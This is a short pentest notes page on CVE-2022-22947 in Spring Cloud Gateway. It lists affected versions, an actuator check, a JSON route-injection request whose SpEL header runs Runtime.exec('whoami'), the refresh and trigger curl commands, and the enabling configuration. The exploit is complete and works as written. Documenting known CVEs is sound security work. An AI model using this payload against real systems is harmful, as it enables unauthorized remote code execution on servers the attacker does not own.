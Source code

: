 ```yaml
---
title: CVE
---
```


# CVE

- https://www.cve.org/

## CVE-2022-22947

- Java, SpringCloud Gateway
  - 3.1.0
  - 3.0.0-3.0.6
  - < 3.0

```bash
# 测试 gateway 是否开启 actuator 管理
curl -X POST http://gateway/actuator/gateway/refresh -v
```

**注入恶意路由**

```http
POST http://gateway/actuator/gateway/routes/pentest
Content-Type: application/json

{
  "id": "pentest",
  "filters": [
    {
      "name": "AddResponseHeader",
      "args": {
        "name": "X-Request-Foo",
        "": "#{new String(T(org.springframework.util.StreamUtils).copyToByteArray(getRuntime().exec(new String[]{\"whoami\"}).getInputStream()))}"
      },
      "uri": "http://httpbin.org/get",
      "predicates": [
        {
          "name": "Method",
          "args": {
            "_key_0": "GET"
          }
        },
        {
          "name": "Path",
          "args": {
            "_key_0": "/pentest"
          }
        }
      ]
    }
  ]
}
```

```bash
# 刷新
curl -X POST http://gateway/actuator/gateway/refresh -v
# 新的路由包含 X-Request-Foo: $(whoami)
curl -X POST http://gateway/pentest -v
```

**配置不同时满足即可**

```ini
management.endpoint.gateway.enabled=true # default value
management.endpoints.web.exposure.include=gateway
```

- https://spring.io/security/cve-2022-22947
- https://www.anquanke.com/post/id/269795
